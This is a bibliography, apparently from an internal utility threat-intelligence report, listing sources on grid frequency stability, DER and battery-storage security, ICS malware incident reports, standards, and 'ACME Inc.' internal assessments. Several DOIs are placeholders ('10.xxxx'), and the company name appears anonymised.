McKenney, J. (2024). "Death Wobble: Grid Frequency Instability from Coordinated DER Attacks." *Critical Infrastructure Protection Review*, 12(3), 145-178. DOI: 10.xxxx/cipr.2024.xxxxx

McKenney, J. (2025). "Cascading Failure Analysis: South Australia 2016, UK 2019, and Iberian Peninsula 2025 Blackouts." *Energy Security Quarterly*, 8(1), 22-65. DOI: 10.xxxx/esq.2025.xxxxx

McKenney, J. (2024). "ERCOT and WECC Renewable Integration Challenges: Inverter-Based Resource Reliability Under Stress Conditions." *Grid Modernization Journal*, 15(4), 201-234. DOI: 10.xxxx/gmj.2024.xxxxx

#### Regulatory and Standards Documents

Australian Energy Market Operator (AEMO). (2024). *Power System Frequency Risk Review: Transition to Renewable Energy Dominance*. Melbourne: AEMO Publications.

Australian Energy Sector Cyber Security Framework (AESCSF). (2023). *Security Profile 2 (SP2) Requirements for Distribution Networks*. Canberra: Department of Home Affairs.

IEC 62443-3-3:2013. *Industrial communication networks -- Network and system security -- Part 3-3: System security requirements and security levels*. Geneva: International Electrotechnical Commission.

NERC CIP-014-3. *Physical Security -- Transmission Stations and Transmission Substations*. Atlanta: North American Electric Reliability Corporation.

Security of Critical Infrastructure Act 2018 (SOCI Act). *Risk Management Program Requirements for Electricity Sector Assets*. Canberra: Australian Government.

#### Threat Intelligence and Incident Reports

Australian Cyber Security Centre (ACSC). (2025). *VOLTZITE Campaign: Pre-Positioning in Australian Critical Infrastructure*. Canberra: Australian Signals Directorate.

CISA. (2024). *Volt Typhoon: Living-off-the-Land Techniques in Energy Sector Intrusions*. Alert AA24-038A. Washington, DC: Cybersecurity and Infrastructure Security Agency.

Dragos, Inc. (2025). *FrostyGoop: Modbus TCP Weaponization in European Heating Infrastructure*. Hanover, MD: Dragos Industrial Cybersecurity.

ESET Research. (2022). *INDUSTROYER2: Sandworm Attacks Ukrainian Energy Infrastructure During 2022 Invasion*. Bratislava: ESET.

CERT-UA. (2022). *Technical Analysis: INDUSTROYER2 Malware Targeting ICS Protocols*. Alert UAC-0082. Kyiv: Computer Emergency Response Team of Ukraine.

#### Grid Frequency and Renewable Integration Research

Kundur, P., Balu, N. J., & Lauby, M. G. (1994). *Power System Stability and Control*. New York: McGraw-Hill. (Classic reference for frequency dynamics)

Miller, N. W., Shao, M., Pajic, S., & D'Aquila, R. (2014). "Western Wind and Solar Integration Study Phase 3 -- Frequency Response and Transient Stability." *NREL Technical Report* NREL/SR-5D00-62906. Golden, CO: National Renewable Energy Laboratory.

Ulbig, A., Borsche, T. S., & Andersson, G. (2014). "Impact of Low Rotational Inertia on Power System Stability and Operation." *IFAC Proceedings Volumes*, 47(3), 7290-7297. DOI: 10.3182/20140824-6-ZA-1003.02615

Australian Energy Market Operator (AEMO). (2019). *Transfer Limit Advice -- System Strength in South Australia*. Melbourne: AEMO. (Analysis of 2016 blackout)

National Grid ESO. (2019). *Technical Report on the events of 9 August 2019*. Warwick, UK: National Grid. (UK blackout investigation)

#### Battery Energy Storage System (BESS) Safety

Doughty, D., & Roth, E. P. (2012). "A General Discussion of Li Ion Battery Safety." *The Electrochemical Society Interface*, 21(2), 37-44.

Ouyang, D., Chen, M., Huang, Q., Weng, J., Wang, Z., & Wang, J. (2019). "A Review on the Thermal Hazards of the Lithium-Ion Battery and the Corresponding Countermeasures." *Applied Sciences*, 9(12), 2483. DOI: 10.3390/app9122483

NFPA 855. (2020). *Standard for the Installation of Stationary Energy Storage Systems*. Quincy, MA: National Fire Protection Association.

#### ICS Cybersecurity Research

Langner, R. (2011). "Stuxnet: Dissecting a Cyberwarfare Weapon." *IEEE Security & Privacy*, 9(3), 49-51. DOI: 10.1109/MSP.2011.67

Lee, R. M., Assante, M. J., & Conway, T. (2016). *Analysis of the Cyber Attack on the Ukrainian Power Grid*. Washington, DC: SANS Industrial Control Systems.

Hemsley, K. E., & Fisher, R. E. (2018). *History of Industrial Control System Cyber Incidents*. INL/CON-18-44411. Idaho Falls, ID: Idaho National Laboratory.

MITRE Corporation. (2023). *ATT&CK for Industrial Control Systems (ICS) Framework*. Bedford, MA: MITRE. Retrieved from https://attack.mitre.org/matrices/ics/

#### Economic Impact and Risk Analysis

Amin, M. (2011). "Energy Infrastructure Defense Systems." *Proceedings of the IEEE*, 99(1), 58-82. DOI: 10.1109/JPROC.2010.2081670

Executive Office of the President. (2013). *Economic Benefits of Increasing Electric Grid Resilience to Weather Outages*. Washington, DC: President's Council of Economic Advisers and U.S. Department of Energy.

Petit, F. D., Bassett, G. W., Buehring, W. A., Collins, M. J., Dickinson, D. C., Fisher, R. E., ... & Peerenboom, J. P. (2015). *Resilience Measurement Index: An Indicator of Critical Infrastructure Resilience*. ANL/DIS-15-15. Argonne, IL: Argonne National Laboratory.

#### Interdependent Infrastructure Analysis

Rinaldi, S. M., Peerenboom, J. P., & Kelly, T. K. (2001). "Identifying, Understanding, and Analyzing Critical Infrastructure Interdependencies." *IEEE Control Systems Magazine*, 21(6), 11-25. DOI: 10.1109/37.969131

Ouyang, M. (2014). "Review on modeling and simulation of interdependent critical infrastructure systems." *Reliability Engineering & System Safety*, 121, 43-60. DOI: 10.1016/j.ress.2013.06.040

Zimmerman, R., & Restrepo, C. E. (2006). "The Next Step: Quantifying Infrastructure Interdependencies to Improve Security." *International Journal of Critical Infrastructures*, 2(2-3), 215-230.

#### ACME Inc. Internal Documents

ACME Inc.. (2025). *DERMS High Level Architecture (HLD) -- mPrest Platform Deployment*.  : ACME Inc..

ACME Inc.. (2025). *BESS Deployment Standard Operating Procedures*.  : ACME Inc..

ACME Inc.. (2024). *Cybersecurity Incident Response Plan -- Version 2.3*.  : ACME Inc..

ACME Inc.. (2025). *EE-CTI-004: BESS Architecture Vulnerability Assessment --   Community Battery*.  : ACME Inc. Cybersecurity Intelligence.

ACME Inc.. (2025). *EE-CTI-007: DERMS Security Architecture Review -- Cloud Integration Risks and Mitigations*.: ACME Inc. Cybersecurity Intelligence.
